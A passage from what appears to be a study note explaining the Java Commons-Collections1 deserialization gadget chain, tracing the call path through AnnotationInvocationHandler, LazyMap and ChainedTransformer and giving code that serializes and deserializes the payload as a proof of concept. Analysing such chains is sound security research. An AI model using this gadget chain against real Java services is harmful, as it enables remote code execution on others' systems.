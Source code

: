 ```java
        newInstance(Override.class, map);
```

How to understand the process when deserialiaztion?

* call `readObject` of `anotherHandler`
    * call `this.memberValues.entrySet()`, where `memberValues` was the proxy object `map`, so
    * call `annoHandler`'s `invoke`
        * call `get` of `lazyMap`
            * call `transform` of `chainedTransformer`

And try to use it

```java
try {
    FileOutputStream ofs = new FileOutputStream(new File("poc.ser"));
    ObjectOutputStream oos = new ObjectOutputStream(ofs);
    oos.writeObject(anotherHandler);

    FileInputStream ifs = new FileInputStream(new File("poc.ser"));
    ObjectInputStream ois = new ObjectInputStream(ifs);
    ois.readObject();
} catch (Exception e) {
    e.printStackTrace();
}
```

### Question

Q: Why the first argument of constrution `AnnotationInvocationHandler` use `Overload.class`?

A: In construtor of `AnnotationInvocationHandler`, it will check wherether the first argument was a `Annotation`

```java
AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) {
    Class[] var3 = var1.getInterfaces();
    if (var1.isAnnotation() && var3.length == 1 && var3[0] == Annotation.class) {
        this.type = var1;
        this.memberValues = var2;
    } else {
        throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
    }
}
```

## References

1. https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections1.java